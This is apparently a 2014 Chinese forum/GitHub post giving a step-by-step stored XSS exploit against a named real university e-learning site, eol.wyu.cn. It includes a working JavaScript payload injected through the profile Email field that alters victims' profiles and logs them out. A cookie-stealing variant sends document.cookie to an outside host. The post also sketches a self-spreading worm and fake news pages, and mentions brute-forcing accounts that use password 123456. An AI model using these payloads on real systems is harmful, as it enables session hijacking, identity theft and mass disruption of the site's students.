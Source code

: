 # eol.wyu.cn上的XSS漏洞

*原发表于: https://github.com/WuyiUniversity/wyuforum/issues/13*

*2014-06-01*

## 爆破密码123456之徒

[前面一节](https://github.com/WuyiUniversity/forum/issues/12)提到如何列举密码为123456的学号。它一不设验证码，二不封恶意IP，因此可以轻松爆破入口。

其实有那个列表，加上暴力，就可以干“很多事情”了。但是，今天我们讲讲eol上的XSS漏洞。

## 能干哪些“坏事”？

- ~~修改密码~~（需要原密码）
- 修改资料
- 退出登录/泄露cookie

> 就这么多？

对，确实不多，另外如“选课”、“写笔记”、“发话题”等比较杂，我们不去讨论。

> eol没人上啊，搞XSS有意义吗？

对，是很少人上，不过我们玩的就是**角色扮演、以小见大**，同时感到轻松。

## 注入代码，“分享”链接

1. 登录一个账号，进入“修改信息”，点击“修改”

1. 在“Email”中填入以下内容：

  ```html
  <script src="//code.jquery.com/jquery.min.js"></script>
  <script>
    function logout() {
      $.get('/resource/logout.jsp')
      $.get('/eol/popups/logout.jsp')
    }
    function getSid(cb) {
      $.get('/eol/main.jsp', function(html){
        var sid = html.match(/\?userid=(\d+)/)[1]
        cb(sid)
      })
    }
    function modify(data, cb) {
      getSid(function(sid){
        $.post('/eol/popups/student_info_modify_do.jsp', {
          SID: sid,
          from: 'welcomepage',
          rd: 'null',
          IPT_EMAIL: data.email,
          IPT_PHONE: data.phone,
          IPT_MOBILE: data.mobile,
          IPT_SUMMARY: data.summary
        }, cb)
      })
    }
    //////////////
    modify({
      sid: sid,
      email: '???',
      phone: '???',
      mobile: '???',
      summary: '???'
    }, logout)
  </script>
  ```

1. 打开控制台，输入：

  ```js
  document.main.document.form1.submit()
  ```

1. 提示修改成功，代码注入完毕，控制台输入：

  ```js
  document.main.location.href
  ```

1. 可以去掉`&`后面的部分，得到类似下面的url，将它“分享”给别人：

  ```
  http://eol.wyu.cn/eol/popups/viewstudent_info.jsp?SID=36066
  ```

1. 将它“分享”给其他在线的eol用户

## 简单的解析

### 范围的局限

这个url就是被注入的页面了，它是代码执行的入口，所以要诱使别人打开。

这里条件有些苛刻，必须是**在线的同站用户**，因为在这里我们注入的代码仅对他们有效。

我们的代码会使他们修改信息，然后退出登录。

### cookie泄露

当然，你可以把`logout`换成`postCookie`：

```js
function postCookie() {
  //$.get('//my.server.com/eol/zombie?cookie=' + document.cookie)
  $('<img>').attr('src', '//my.server.com/eol/zombie?cookie=' + document.cookie)
}
```

实现cookie泄露，而不是退出登录，服务端得到cookie后，可以利用其身份直接进入系统。

### 病毒式传播

`modify`的参数，也就是修改后的资料，当然不必非得是`???`，可以自己定。

假如我们把`email`设成起初填入“Email”中那冗长的段代码本身（需要重构），想象一下，假如那个入口页本身就是用户能频繁访问到的，不怎么需要我们去“分享”的，那么会怎样？

结果会是，一传十、十传百，甚至最终全站的人都“无法登录”了。当然，只是表面上，但也是一次十足的“病毒式传播”了。

## 其他玩法

正如前面提到的，还有“选课”、“写笔记”、“发话题”等各种操作，都可以实现。

噢，对了，还可以注入样式和内容，比方说把那个入口页改造成一个全新的自己的网页，伪造成新闻、公告等等任何你能想到的具有欺诈性成分。

我并不算特别了解XSS，表达也主观。**这是XSS吗？欢迎大家吐槽，一起交流。**

---

## 号被删

刚刚发现我的eol账号居然被删除了！我想是这两天异常操作太频繁吧，最终**自食其果**。

> 1. 您所查询的用户不存在!
2. 用户已被删除!

他们居然干得出来！**“学习交流！学习交流！”**
